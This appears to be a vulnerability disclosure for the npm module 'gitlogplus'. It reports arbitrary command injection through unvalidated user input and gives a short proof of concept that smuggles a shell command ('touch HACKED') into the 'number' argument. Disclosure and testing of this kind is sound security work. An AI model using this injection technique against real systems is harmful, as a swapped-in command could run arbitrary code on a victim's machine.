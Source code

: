 # :bug: Description

The `gitlogplus` module is vulnerable against an `arbitrary command injection` issue which is made possible since some `user-inputs` are executed inside a command which doesn't have validations of any kind.

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var git = require('gitlogplus');
git({repo:'.', number:'eeee; touch HACKED; #'})

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i gitlogplus # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
